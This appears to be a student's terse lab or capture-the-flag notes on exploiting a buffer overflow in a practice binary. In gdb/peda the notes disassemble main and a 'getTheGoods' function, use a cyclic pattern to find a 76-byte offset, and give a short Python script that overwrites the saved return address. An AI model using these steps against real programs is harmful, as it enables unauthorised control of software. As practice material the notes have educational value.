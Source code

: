 #peda opened, ran "pdisass main"

# ran pdisass "getTheGoods"

# researched "fgets and printf" -- fgets is vulnerable to buffer overflow

# made my python file, now obtaining buffer pattern from 
https://wiremask.eu/tools/buffer-overflow-pattern-generator/ 



##script 
------------------------------------------------------------------------------------------------
overflow ="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6
Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad
7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7A
f8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

print(overflow)
------------------------------------------------------------------------------------------------

# ran command run <<< $(python elf_buff.py)  --- with 3 carrots because it takes user input


# entered returned hex value in website above and got "76"



# edit script
------------------------------------------------------------------------------------------------
overflow = "A" * 76
eip = "B" * 4
print(overflow + eip)
------------------------------------------------------------------------------------------------



# exit out of peda, enter the following commands
#
# env - gdb func
# unset env LINES
# unset env COLUMNS
# run
